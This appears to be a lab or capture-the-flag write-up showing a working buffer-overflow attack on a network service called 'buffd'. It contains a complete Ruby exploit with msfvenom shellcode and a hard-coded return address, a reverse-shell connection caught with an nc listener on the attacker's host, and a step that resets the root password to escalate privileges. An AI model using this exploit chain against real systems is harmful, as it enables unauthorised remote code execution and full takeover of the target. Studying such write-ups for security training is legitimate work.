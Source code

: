 Exploit in Ruby:
{% codeblock lang:ruby %}
root@kali32:~# cat exploit.rb
#!/usr/bin/env ruby

require 'socket'

#root@kali32:~# /usr/share/metasploit-framework/msfelfscan -j ebp,ebx,esp,eax repo/buffd
#[repo/buffd]
#0x0804898f call eax
#0x08048efb call eax

#root@kali32:~# /usr/share/metasploit-framework/msfvenom -p linux/x86/exec -b '\x00\xff' CMD="/tmp/commands" -f ruby
buf =
"\xdd\xc2\xd9\x74\x24\xf4\xbd\x38\x6f\xc2\x8c\x58\x33\xc9" +
"\xb1\x0d\x31\x68\x18\x03\x68\x18\x83\xc0\x3c\x8d\x37\xe6" +
"\x37\x09\x21\xa5\x21\xc1\x7c\x29\x24\xf6\x17\x82\x45\x91" +
"\xe7\xb4\x86\x03\x81\x2a\x51\x20\x03\x5b\x6f\xa7\xa4\x9b" +
"\x40\xd3\xc9\xeb\xb1\x78\x7d\x61\xa0\x1f\xef\x1d\x49\xe0" +
"\xb8\x8e\x24\x01\x8b\xb1"

exploit = buf + "A" * (124 - buf.length)
exploit << [0x0804898f].pack("V")

host = ARGV[0]
host ||= "192.168.80.143"

puts "Using host: #{host}"

s = TCPSocket.new host, 7777
s.puts(exploit)
s.close
{% endcodeblock %}

Exploits runs arbitrary command, that we put on vulnerable server to /tmp/commands. 

We connect to the host:
{% codeblock %}
www-data@:/home/testuser $ :backdoor.reversetcp -port 1337 192.168.80.137 -no-connect

root@kali32:~# nc -lvp 1337
listening on [any] 1337 ...
192.168.80.143: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.80.137] from (UNKNOWN) [192.168.80.143] 32787
sh: no job control in this shell
sh-2.05b$ cd /tmp
{% endcodeblock %}

To obtain root privileges, we can run ssh server and put to 'commands' the command to change root password:
{% codeblock %}
debian:/tmp# chmod +x commands
debian:/tmp# cat commands
echo -e "1234\n1234\n" | passwd
{% endcodeblock %}
